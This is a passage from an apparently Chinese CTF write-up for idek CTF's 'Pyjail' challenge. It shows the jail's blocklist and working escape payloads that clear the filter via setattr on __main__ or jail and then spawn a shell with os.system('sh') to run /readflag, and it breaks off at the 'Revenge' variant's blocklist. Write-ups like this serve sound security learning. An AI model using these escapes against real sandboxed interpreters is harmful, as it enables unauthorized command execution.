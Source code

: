 `PS(OEI)DKT` idek前缀都在，似乎就是 flag 了，简单处理一下得到 `idek{stop}`

### Pyjail:

代码是这样的

```python
blocklist = ['.', '\\', '[', ']', '{', '}',':']
DISABLE_FUNCTIONS = ["getattr", "eval", "exec", "breakpoint", "lambda", "help"]
DISABLE_FUNCTIONS = {func: None for func in DISABLE_FUNCTIONS}
```

有个blocklist ban掉了`'.', '\\', '[', ']', '{', '}',':'`.然后有个`DISABLE_FUNCTIONS` 注册了关于`"getattr", "eval", "exec", "breakpoint", "lambda", "help"`的None对象并且覆盖其`__builtins__`中的函数对应函数.同时文件名是`jail.py`,docker里的也是jail起来的所以可以用,`__import__('jail')`但是可能要输入两次,所以不如使用`__import__(__main__)`

同时flag设置权限了不能直接读 然后给了一个`readflag`,调用参数是`/readflag giveflag`即可

同时本题可以多行执行,所以可以搞一些例如清空blocklist的操作 如下

```
welcome!
>>> setattr(__import__('__main__'),'blocklist','')
None
>>> __import__('os').system('sh')
sh: 0: can't access tty; job control turned off
$ ls
jail.py  readflag.c
$ ls /
bin   ctf  etc   home  lib    media  opt   readflag  run   srv  tmp  var
boot  dev  flag  kctf  lib64  mnt    proc  root      sbin  sys  usr
$ /readflag giveflag
idek{9eece9b4de9380bc3a41777a8884c185}
```

当然还有第二个版本用`__import__('jail')`来进行加载,但是似乎得打两次 因为第一个导入了jail 等于重启了一次新的环境

```
welcome!
>>> setattr(__import__('jail'),'blocklist','')
welcome!
>>> setattr(__import__('jail'),'blocklist','')
None
>>> __import__('os').system('sh')
sh: 0: can't access tty; job control turned off
$ /readflag giveflag
idek{9eece9b4de9380bc3a41777a8884c185}
```

### Pyjail Revenge:

比赛中没做出 赛后复现

Revenge版本的区别和正常版本的区别在于 blocklist 添加了`blocklist`,`globals`以及`compile`

```
blocklist = ['.', '\\', '[', ']', '{', '}',':', "blocklist", "globals", "compile"]
```
